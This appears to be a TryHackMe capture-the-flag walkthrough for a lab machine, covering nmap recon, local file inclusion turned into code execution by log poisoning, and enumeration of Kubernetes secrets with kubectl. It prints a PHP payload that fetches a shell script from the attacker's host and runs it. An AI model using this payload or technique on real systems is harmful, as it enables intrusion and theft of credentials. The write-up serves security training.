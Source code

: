 ```yaml
---
title: TryHackMe - Island Orchestration - Walkthrough
tags: thm web kubernetes kubectl lfi
---
```


# Description

Room Link: [Island Orchestration](https://tryhackme.com/room/islandorchestration)

![2022-06-25_17-29](https://user-images.githubusercontent.com/84577967/175782516-de2830f0-1a00-4e41-bf61-4c8312532785.png)

Only one flag to catch ... !

# Recon

Using `nmap`, we can find that there are two open ports.

```
Nmap scan report for 10.10.160.23
Host is up, received reset ttl 255 (0.013s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

## Port 80

We have a PHP webapp on port 80

![2022-06-25_17-37](https://user-images.githubusercontent.com/84577967/175782766-7c4176c0-0e58-448a-8d8c-32181f7dc4c3.png)

![image](https://user-images.githubusercontent.com/84577967/175782758-ed3c0642-5acc-4fba-92ab-e60e28d9f95d.png)

It seems that we are dealing with a Local File Inclusion (LFI) vulnerability. LFI vulnerabilities allow an attacker to include local files on the target system in HTTP requests and access their contents. There are many resources available online, that can help with identifying and exploiting LFI vulnerabilities.

![image](https://user-images.githubusercontent.com/84577967/175782872-51eb640f-22f2-4ef2-afd7-cba363eacd24.png)

To get a reverse shell on this web application, we can try including the Apache2 `access_log` or `access.log` file. I actually ended up by finding the location of this file by reading the `/proc/self/fd/6` file.

![image](https://user-images.githubusercontent.com/84577967/175782863-b86ecd11-9215-4605-a7fd-dcb7f83b99a9.png)

I injected a payload into the `User-Agent` value. Some PHP web applications use functions such as `file_get_contents` or `fopen` to include/read external files, but these functions do not execute PHP code.
Only functions like `include`, `require`, `include_once`, and `require_once` can execute PHP codes.

![image](https://user-images.githubusercontent.com/84577967/175782913-8fc573d0-d623-4322-b454-5186f3efa5c6.png)

Anyway, It seems that we have successfully gained Remote Code Execution (RCE) :smile:.

![image](https://user-images.githubusercontent.com/84577967/175782954-55971df9-f2fc-46b9-84be-07587472fca7.png)

To get a reverse shell, I injected this payload:

![image](https://user-images.githubusercontent.com/84577967/175783019-f7aa1a23-5564-4ae1-a410-1ba2ed0a3dbd.png)

```php
<?php file_put_contents('/tmp/s.sh',file_get_contents('http://10.8.48.23:8001/s.sh'),FILE_APPEND);system('bash /tmp/s.sh');?>
```

![image](https://user-images.githubusercontent.com/84577967/175783041-e872251e-42a6-4131-909c-1c70cb295ac6.png)

I wasn't able to find some linux binaries such `ifconfig`, `curl` ...

![image](https://user-images.githubusercontent.com/84577967/175783088-70c25bb8-2acb-40bd-b9c8-3231eaf41ffb.png)

I immediately suspected that we were inside a Docker container or a similar environment. In such cases, I often use a repository of Linux static binaries that I have collected
[linux-static-binaries](https://github.com/ab2pentest/linux-static-binaries).

So let's upload `ifconfig` and see what we have here

![image](https://user-images.githubusercontent.com/84577967/175783182-0f89544d-249d-4008-81ad-c00d15955af8.png)

It looks like our suspicion was correct and we are indeed inside a Docker container. To see if there are any other containers on the system, we can use this nmap static binary [nmap-static-binaries](https://github.com/opsec-infosec/nmap-static-binaries).

After uploading it

```bash
./nmap 172.17.0.0/24 -vvv
```

output:

```
Nmap scan report for ip-172-17-0-1.eu-west-1.compute.internal (172.17.0.1)
Host is up, received conn-refused (0.00027s latency).
Scanned at 2022-06-25 15:38:09 UTC for 4s
Not shown: 997 closed ports
Reason: 997 conn-refused
PORT      STATE    SERVICE   REASON
22/tcp    open     ssh       syn-ack
8443/tcp  open     https-alt syn-ack
30000/tcp filtered ndmps     no-response

Nmap scan report for coredns-78fcd69978-ttkch (172.17.0.2)
Host is up, received conn-refused (0.00029s latency).
Scanned at 2022-06-25 15:38:09 UTC for 3s
Not shown: 997 closed ports
Reason: 997 conn-refused
PORT     STATE SERVICE     REASON
53/tcp   open  domain      syn-ack
8080/tcp open  http-proxy  syn-ack
8181/tcp open  intermapper syn-ack

Nmap scan report for islands-7655b7749f-zvq52 (172.17.0.3)
Host is up, received syn-ack (0.00030s latency).
Scanned at 2022-06-25 15:38:09 UTC for 3s
Not shown: 999 closed ports
Reason: 999 conn-refused
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack
```

There are 3 hosts

### 172.17.0.1

From the ports `10250`, `10256` and `8443` looks like a kubernetes server

```bash
./nmap 172.17.0.1 -p- -vvv

Host is up, received conn-refused (0.00013s latency).
Scanned at 2022-06-25 15:39:27 UTC for 3s
Not shown: 65528 closed ports
Reason: 65528 conn-refused
PORT      STATE    SERVICE   REASON
22/tcp    open     ssh       syn-ack
2376/tcp  open     docker    syn-ack
8443/tcp  open     https-alt syn-ack
10249/tcp open     unknown   syn-ack
10250/tcp open     unknown   syn-ack
10256/tcp open     unknown   syn-ack
30000/tcp filtered ndmps     no-response
```

### 172.17.0.2

I didn't know what this host was doing ...

```bash
./nmap -sC -sV 172.17.0.2 -p- -vvv

Host is up, received conn-refused (0.00013s latency).
Scanned at 2022-06-25 15:38:54 UTC for 16s
Not shown: 65531 closed ports
Reason: 65531 conn-refused
PORT     STATE SERVICE    REASON  VERSION
53/tcp   open  tcpwrapped syn-ack
8080/tcp open  http       syn-ack Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
8181/tcp open  http       syn-ack Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
9153/tcp open  http       syn-ack Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
```

## Kubernetes

One of the first things I usually do is download `kubectl`, which is a command-line tool for controlling Kubernetes clusters.

```
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
```

Let's try to list pods

```bash
./kubectl get pods
```

![image](https://user-images.githubusercontent.com/84577967/175783551-9ba5d6ff-a7e9-41dc-8972-a77174a1bf4f.png)

It seems that the user does not have the necessary permissions to list pods, so let's inspect authorization first 

![image](https://user-images.githubusercontent.com/84577967/175783621-a93738c1-3c71-4fe3-940e-5446b0d20336.png)

We can use the following command to see what our current user is authorized to do

```
./kubectl auth can-i --list
```

![image](https://user-images.githubusercontent.com/84577967/175783658-e9fe2bfa-96ab-4bc6-a996-89701ac02ff4.png)

There is a resource called `secrets` that we can examine. Secrets in Kubernetes are objects that contain sensitive data, such as passwords, OAuth tokens, and SSH keys. By checking the secrets resource, we may be able to find sensitive information that could be useful for accessing other resources or escalating privileges.

```bash
./kubectl get secrets
```

![image](https://user-images.githubusercontent.com/84577967/175783710-ada11fa5-38ff-47c3-b1c6-386b2156e251.png)

It seems that we are making progress and getting closer to finding the flag ...

```bash
./kubectl describe secrets/flag
```

![image](https://user-images.githubusercontent.com/84577967/175783748-91ab5b9e-892f-4a93-8302-32a50f785761.png)


```bash
./kubectl describe secrets/flag
```

# Flag

```bash
./kubectl get secret flag -o=json
```

![image](https://user-images.githubusercontent.com/84577967/177194290-3569b03c-6b18-4ee2-920b-c594ddec82c3.png)

We are able to obtain the flag by base64 decoding the value of the flag.
